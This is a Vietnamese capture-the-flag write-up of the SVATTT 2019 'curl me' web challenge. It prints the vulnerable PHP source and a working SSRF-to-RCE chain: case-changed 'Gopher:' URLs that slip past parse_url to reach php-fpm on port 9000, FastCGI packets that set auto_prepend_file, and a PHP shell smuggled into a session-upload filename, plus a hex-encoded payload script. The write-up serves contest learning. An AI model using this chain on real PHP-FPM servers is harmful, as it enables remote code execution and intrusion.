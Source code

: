 Xin chào, mình là `Vịnh (@vinhjaxt)`!

Vừa qua (03/11/2019), mình có tham gia cuộc thi SVATTT 2019 vòng sơ khảo, thuộc team `KMA PeBois`.

Sau đây, mình xin phép đại diện cho team, viết writeup bài web có tiêu đề `curl me`.

# Đề bài
```
Curl me
Source code: https://drive.google.com/file/d/10fXfOHVbtth28677oQ6Xxorgq5Tv3Dik/view
URL: http://125.235.240.170/
```

# Hint
Sau khi team mình giải được, btc cho hint, team sợ vô cùng :(
```
1. gopherus
```

# Source index.php
```php
<?php
if (isset($_GET["url"])) {
    $url = $_GET["url"];
    $parse = parse_url($url);

    if (isset($parse["scheme"]) && !in_array($parse["scheme"], array("file", "gopher"))) {
        if (!isset($parse["port"]) || $parse["port"] != 9000) {
            $path = urldecode(isset($parse["path"])?$parse["path"]:"");
            if (!preg_match("/flag/i", $path)) {
                $ch = curl_init();
                curl_setopt($ch, CURLOPT_URL, $url);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                curl_setopt($ch, CURLOPT_HEADER, false);
                $output = curl_exec($ch);
                curl_close($ch);
                die($output);
            }
        }
    }
    die("dont hack :)");
}
?>
<a href ="?url=https://pastebin.com/raw/jEwTz1cP">Curl flag</a>
```
Sau khi thấy 2 bài `curl 1` và `curl 2`, team mình nghĩ, `curl 1` sẽ phải làm cách nào đó để đọc file `/flag1` thông qua curl php.
Còn `/flag2`, muốn đọc được thì phải rce, liên quan đến php-fpm.
Hơn nữa, gần đây có cái CVE của php-fpm, chắc là cần dùng đến nó.

Với `curl 1`:
Để đọc được file `/flag1` thì ta phải bypass 2 thứ:
- parse_url với sheme được check không cho `file`, `gopher`: Cái này bypass khá đơn giản, team gửi url với scheme là `File` hay là `Gopher`
- `preg_match("/flag/i", $path)`: cái này thì coi như xong, trong suốt thời gian cuộc thi diễn ra, team mình vẫn chưa biết làm sao vượt được, sau khi kết thúc cuộc thi mới được share `File:///#/../flag1`

Với chiến lược: thôi thì đằng nào chả phải làm cái `curl 2`, làm được cái 2 rồi ăn cái 1 cũng được, team mình bắt đầu chuyển sang hướng khác.

Ban đầu, check với poc của CVE-2019-11043 (https://github.com/neex/phuip-fpizdam), không chạy.

Không sao! Chắc tác giả muốn các đội tìm hiểu sâu hơn vào cách poc hoạt động, team mình đọc blog của Orange (http://blog.orange.tw/) và improve poc: Không thành công

OK, không sao, còn nữa, port 9000, nếu mà vượt được thì chắc là hay ho =)).

Sau khi có tin nhắn `Ém flag à em =))`, mình thấy `PeBois` sắp thành `Phế Bois` rồi =)), bắt đầu fuzz lại cái parse_url hy vọng kiếm được chút đỉnh để vượt qua cơn khó khăn này.

Thật may mắn, payload `?url=Gopher:/127.0.0.1:9000`
với php:
```php
php > var_dump(parse_url("Gopher:/127.0.0.1:9000"));
array(2) {
  ["scheme"]=>
  string(6) "Gopher"
  ["path"]=>
  string(15) "/127.0.0.1:9000"
}
```
nhưng với curl:
```bash
$ curl 'Gopher:/127.0.0.1:9000' -v
*   Trying 127.0.0.1:9000...
* TCP_NODELAY set
* connect to 127.0.0.1 port 9000 failed: Connection refused
* Failed to connect to 127.0.0.1 port 9000: Connection refused
* Closing connection 0
```
Đến đây thì coi như toang (vượt được check port 9000), con đường thênh thang rộng mở mà rce vào thôi.

Để rce, team mình có 2 phương án:
- Thực hiện giống poc của CVE-2019-11043: Cách này đòi hỏi race condition quyết liệt
- Tham khảo poc CVE-2019-11043, thực hiện php session upload injection (cái này mình không biết gọi thế nào cho đúng :((, lấy từ ý tưởng lúc chơi `balsnctf`) và php-fpm (giống với SVATTT 2018 Quals của tác giả [@haxor](https://www.facebook.com/haxor.1337.xxx))

Không chần chừ, team mình chọn cách 2:

Đề thực hiện cách này, team mình cần:
- Một session của php
- Inject shell vào session đó bằng việc upload
- Include session đó sử dụng gopher để thay đổi setting auto_prepend_file của php-fpm và gọi shell

OK! Giải quyết từng vấn đề một:
- Để có được session, team mình sử dụng gopher, thay đổi setting `session.auto_start=1` của php-fpm

Sử dụng script (https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) để gen với php-fpm params:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "session.auto_start=1"
).to_s
```
Sau khi gửi lên server, team mình có session của php `mhjuo9kbjf5fpkv0c2sk11mclo` (trả về dạng: `Set-Cookie: PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo`)

- Để inject shell vào session này, team mình thực hiện upload liên tục lên server:
```js
      {
        method: 'POST',
        url: 'http://125.235.240.170/info.php?0=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo',
        headers: {
          Connection: 'close',
          Cookie: 'PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo'
        },
        formData: {
          PHP_SESSION_UPLOAD_PROGRESS: 'XXXXXvinhjaxtXXXXX',
          f: {
            value: `A`.repeat(100 * 1024),
            options: {
              filename: `<?php $v=chr(47).'getflag'; echo \`$v\`; ?>`, // Đọc flag2 nè
              contentType: 'image/jpeg'
            }
          }
        }
      }
```
- Để thực thi shell, team mình gửi request thay đổi `auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo` của php-fpm

Thực hiện script fastcgipacket.rb với custom:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo"
).to_s
```
Sau đó gửi nhiều lần payload này lên server bằng cách chạy nhiều lần script sau (bằng tay :p):
```php
<?php
$out = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x00\x93\x03\x00\x0e\x03\x52\x45\x51\x55\x45\x53\x54\x5f\x4d\x45\x54\x48\x4f\x44\x47\x45\x54\x0f\x17\x53\x43\x52\x49\x50\x54\x5f\x46\x49\x4c\x45\x4e\x41\x4d\x45\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x69\x6e\x64\x65\x78\x2e\x70\x68\x70\x0f\x47\x50\x48\x50\x5f\x41\x44\x4d\x49\x4e\x5f\x56\x41\x4c\x55\x45\x61\x75\x74\x6f\x5f\x70\x72\x65\x70\x65\x6e\x64\x5f\x66\x69\x6c\x65\x3d\x2f\x76\x61\x72\x2f\x6c\x69\x62\x2f\x70\x68\x70\x2f\x73\x65\x73\x73\x69\x6f\x6e\x73\x2f\x73\x65\x73\x73\x5f\x6d\x68\x6a\x75\x6f\x39\x6b\x62\x6a\x66\x35\x66\x70\x6b\x76\x30\x63\x32\x73\x6b\x31\x31\x6d\x63\x6c\x6f\x00\x00\x00\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00";
echo PHP_EOL,file_get_contents("http://125.235.240.170/index.php?url=".rawurlencode("Gopher:/127.0.0.1:9000/_".rawurlencode($out))), PHP_EOL;
```
Thật may mắn, trong một lần gửi lên, server trả về cho mình:
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-13-44.png)

Và một chút thay đổi để lấy được `/flag1`
```js
filename: `<?php $v=chr(47).'flag1'; echo file_get_contents($v); ?>`,
```
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-14-44.png)

OK, vậy là xong. Team mình khá vui và gỡ bỏ một số áp lực.
Cảm ơn các bạn/anh/chị/em đã theo dõi writeup, cảm ơn tác giả của challenge, cảm ơn team.
Nếu có góp ý, liên hệ, trao đổi, mọi người vui lòng liên lạc qua:
- Fb: http://fb.com/i.am.Ioser
- Discord: @vinhjaxt#2733
- Twitter: @vinhjaxt

# Tham khảo thêm
- https://www.zybuluo.com/shaobaobaoer/note/1214441
- http://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
